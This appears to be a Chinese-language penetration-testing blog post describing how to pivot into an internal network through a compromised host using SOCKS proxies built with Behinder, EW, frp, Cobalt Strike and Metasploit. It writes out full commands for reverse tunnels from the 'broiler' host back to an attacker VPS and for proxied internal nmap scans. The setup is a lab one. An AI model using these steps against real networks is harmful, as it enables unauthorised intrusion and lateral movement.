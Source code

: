 ```yaml
---
title: 几种socks代理测试
date: 2020-05-19 21:02:50
categories: 内网渗透
tags: 代理
---
```


#### socks代理在内网渗透中的作用

当我们拿下了一个目标A，目标的网络环境可能存在两情况

1. 目标A处于公网，但有其它设备B与A相连接，我们可以访问A，无法访问B,但A可以访问B。
2. 目标A处于内网，通过NAT或端口映射将80或者443端口转发到公网上，同样A在内网与其他机器相连并可以相互访问

<!--more-->

此时，我们便可通过socks代理将我们的流量通过被控制的A设备代理到内网来访问内网的资源，如3389，或内网的web服务，省去了端口转发的麻烦。socks代理目前有socks 4 和socks 5两种类型，socks 4只支持TCP协议，而socks 5支持TCP/UDP协议，还支持各种身份验证机制等协议。但貌似不支持ICMP协议，所以使用代理加Nmap的时候就得注意了。

#### 环境

攻击机与靶机在两个完全不同的内网环境，为了模拟服务器处在内网的环境，将靶机的80端口转发到了公网的80端口上，通过配置的域名可以顺利访问到内网靶机的80端口。

![](http://qn.laohuan.xin/Snipaste_2020-05-13_19-45-49.png)

#### 冰蝎

1. 使用冰蝎连接上一句话木马

   ![](http://qn.laohuan.xin/Snipaste_2020-05-13_19-48-52.png)

2. 打开冰蝎的socks代理，监听10086端口

![](http://qn.laohuan.xin/Snipaste_2020-05-13_19-49-14.png)

3. 配置proxifier,设置socks5为127.0.0.1,监听端口和冰蝎保持一致为10086，代理规则里将浏览器加入

   ![](http://qn.laohuan.xin/Snipaste_2020-05-13_19-53-41.png)

此时便可通过火狐浏览器访问内网的web服务，但作者实际测试中并不能顺利访问到内网的web服务，经作对比发现jsp环境可用socks代理访问内网环境，而php环境则不能。

#### EW

使用EW需要有一个公网IP

1. 首先在公网vps上执行如下命令

   `sudo ./ew_for_linux64 -s rcsocks -l 3950 -e 3951`

   ![](http://qn.laohuan.xin/Snipaste_2020-05-13_20-13-39.png)

此命令将3950端口收到的请求转发到3951端口

2. 在肉机上执行

   `./ew_for_linux64 -s rssocks -d x.x.x.x(公网vps) -e 3951`

   ![](http://qn.laohuan.xin/2020-05-13_20-21.png)

3. 编辑proxychains文件

   `nano /etc/proxychains.conf`

   在最后面加上我们的socks代理

   `socks5 x.x.x.x(公网vps) 3950`

4. 访问内网

   `proxychains curl 192.168.88.1`

   192.168.88.1为内网的路由器管理地址

   ![](http://qn.laohuan.xin/2020-05-18_21-31.png)

#### Frp

1. 在公网vps编辑服务端frps.ini文件

   ![](http://qn.laohuan.xin/Snipaste_2020-05-20_21-29-43.png)

   * bind_port 为监听端口
   * token可设可不设，若设置则服务端的token和客户端的token必须保持一致

2. 编辑客户端(靶机)frpc.ini

   ![](http://qn.laohuan.xin/Snipaste_2020-05-16_15-18-00.png)

* server_addr为公网vps的ip
* server_port: 公网vps的监听端口
* remote_port :待会设置代理的时候就需要设置成这个端口

3. 启动frp

   服务端：

   `sudo ./frps -c frps.ini`

   客户端（靶机）:

   `frpc.exe -c frpc.ini`

4. 设置代理

   攻击机配置proxychains.conf文件，socks代理的ip为公网vps的ip，端口为remoet_port所设置的端口

5. 使用代理扫描内网

   `proxychains3 nmap -sT -Pn -n -p80,22,23,443,445` 192.168.88.1

    ![](http://qn.laohuan.xin/2020-05-16_15-16.png)

此处使用nmap要注意-sT 和-Pn参数，不然无法扫描，其次也建议扫描常用端口，不推荐全端口扫描，否则速度过慢。

#### cobaltstrike

1. 通过 **[beacon]** → **Pivoting** → **SOCKS Server** 来在你的团队服务器上设置一个 SOCKS4a 代理服务器。或者使用 socks 8080 命令来在端口 8080 上设置一个 SOCKS4a 代理服务器（或者任何其他你想选择的端口）

![](http://qn.laohuan.xin/2020-05-16_16-44.png)

2. 配置proxychains.conf文件即可通过socks代理访问内网，同样可以复制以上配置到msf中，利用msf畅游内网。

   ```
   setg Proxies socks4:team server IP:proxy port
   setg ReverseAllowProxy true
   ```

   使用proxychains打开浏览器访问内网

   `proxychains firefox`

   ![](http://qn.laohuan.xin/Snipaste_2020-05-13_20-24-16.png)

   

   #### metasploit

   当我们得到一个meterpreter时，可通过添加路由，再添加socks代理，将流量通过socks代理进目标内网，笔者之前直接添加socks代理并无法访问内网，也困扰了一段时间，之后才发现添加路由后才能正常使用。当然要说一点，msf添加路由之后就能扫描内网了。

   1. 添加路由

      查看目标网段

      `run get local subnets`

      添加路由

      `run autoroute -s 192.168.88.0/24`

      查看添加的路由

      `run autoroute -p`

      ![](http://qn.laohuan.xin/Snipaste_2020-05-18_21-14-07.png)

   2. 启动socks4

      `use auxiliary/server/socks4a`

      `set srvport 3950`

      ![](http://qn.laohuan.xin/Snipaste_2020-05-18_21-17-57.png)

   3. 配置proxychains.conf

      `socks4 127.0.0.1 3950`

      

#### 总结

socks代理在内网渗透中有很大的作用，由于图片放在第三方云，整理较麻烦，所以我放了较少的图片，而代码部分会尽量打出来。这也算是我对socks代理使用的一次总结，另外，冰蝎socks代理在php环境无法测试成功的原因欢迎小伙伴提出交流。

#### 参考链接

<http://www.anquanke.com/post/id/85494/>

